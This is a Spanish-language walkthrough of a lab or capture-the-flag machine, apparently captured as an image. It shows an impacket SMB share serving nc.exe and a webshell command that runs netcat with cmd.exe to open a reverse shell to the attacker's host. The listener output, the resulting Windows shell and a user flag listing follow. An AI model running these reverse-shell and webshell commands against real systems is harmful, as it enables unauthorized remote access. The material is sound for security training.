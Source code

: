 En esta ruta tenemos disponible **nc.exe**
```bash
impacket-smbserver share ~/labs/content
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (192.168.100.43,49176)
[*] AUTHENTICATE_MESSAGE (\,WIN-JG67MIHZH2X)
```

Ahora lo que tenemos que hacer es transferir, el archivo **nc.exe** al sistema objetivo
Ya sea desde curl o desde la web atraves de la url  ya con el servidor listo ejeuctamos la conexiion a la maquina victima
```bash
# Reverse shell o acceso inicial
192.168.100.43/webshell.aspx?cmd=\\192.168.100.24\share\nc.exe -e cmd.exe 192.168.100.24 4444
```

Recibimos la solicitud
```bash
[*] User WIN-JG67MIHZH2X\ authenticated successfully
[*] :::00::aaaaaaaaaaaaaaaa
[*] Disconnecting Share(1:IPC$)
[*] Disconnecting Share(2:SHARE)
[*] Closing down connection (192.168.100.43,49176)
[*] Remaining connections []
```

Ahora si revisamos nuestro puerto, que abrimos con **nc** ya tenemso la conexion
```bash
nc -nlvp 4444
listening on [any] 4444 ...
connect to [192.168.100.24] from (UNKNOWN) [192.168.100.43] 49182
Microsoft Windows [Versi�n 6.0.6001]
Copyright (c) 2006 Microsoft Corporation.  Reservados todos los derechos.

c:\windows\system32\inetsrv>
```

---

## Escalada de Privilegios.

###### Usuario `[ nt authority\servicio de red ]`:
Flag de usuario
```bash
dir
 El volumen de la unidad C no tiene etiqueta.
 El n�mero de serie del volumen es: 1CEF-5C5A

 Directorio de c:\Users\info

14/06/2024  18:17    <DIR>          .
14/06/2024  18:17    <DIR>          ..
14/06/2024  18:15                26 user.txt
```
